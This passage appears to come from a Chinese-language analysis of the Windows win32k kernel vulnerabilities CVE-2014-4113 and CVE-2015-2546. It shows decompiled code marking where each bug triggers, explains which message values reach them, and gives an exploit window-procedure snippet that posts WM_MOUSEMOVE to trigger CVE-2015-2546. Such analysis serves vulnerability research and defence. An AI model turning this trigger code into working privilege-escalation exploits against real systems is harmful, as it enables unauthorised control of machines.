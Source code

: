 ```
        v22 = v21 - 0x12;       // uMsg - 0x12
        if ( !v22 )
          return 1;
        v23 = v22 - 0xE8;       // uMsg - 0xE8
        if ( v23 )          
        {
          if ( v23 == 1 )
          {
               // CVE-2014-4113漏洞触发点
            iRet = (_DWORD *)xxxMNFindWindowFromPoint((WCHAR)v3, (int)&UnicodeString, (int)v7);
             
            if ( iRet == (_DWORD *)-1 )
              xxxMNButtonDown(v3, v12, UnicodeString, 1);
            else
              xxxSendMessage(iRet, 0xED, UnicodeString, 0);
            if ( !(v12[1] & 0x100) )
              xxxMNRemoveMessage(*(_DWORD *)(a1 + 4), 516);
          }
          return 0;
        }
     
           // CVE-2015-2546漏洞触发点
        xxxMNMouseMove((WCHAR)v3, a2, (int)v7);
        return 1;
      }
    }
  }
  return 1;
}
```  
  
  
经过计算，uMsg等于0x201的时候，会触发CVE-2014-4113的漏洞，当它等于0x200的时候会触发CVE-2015-2546的漏洞。而uMsg的值是由主窗口处理例程中的第三个PostMessageA的第二个参数决定的，根据以下的定义可以知道，本次漏洞的触发需要通过PostMessageA发送WM_MOUSEMOVE的消息。  
```
#define WM_MOUSEMOVE                   0x0200
#define WM_LBUTTONDOWN                  0x0201
```  
  
  
并且，在进入xxxMouseMove函数中，会对第三个PostMessageA的第四个参数进行判断，该值如果为0，将不会调用xxxMNHideNextHierarchy触发漏洞，所以此次的exp的主窗口例程的处理函数应该改成如下的代码：  
```
LRESULT CALLBACK WndProc_2015_2546(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    if (uMsg == WM_ENTERIDLE)
    {
        if (!bFlag)
        {
            bFlag = TRUE;
            PostMessageA(hWnd, WM_KEYDOWN, VK_DOWN, 0);
            PostMessageA(hWnd, WM_KEYDOWN, VK_RIGHT, 0);
            PostMessageA(hWnd, WM_MOUSEMOVE, 0, 1);
        }
        else
        {
            PostMessageA(hWnd, WM_CLOSE, 0, 0);
        }
    }
 
    return DefWindowProcA(hWnd, uMsg, wParam, lParam);
}
```  
  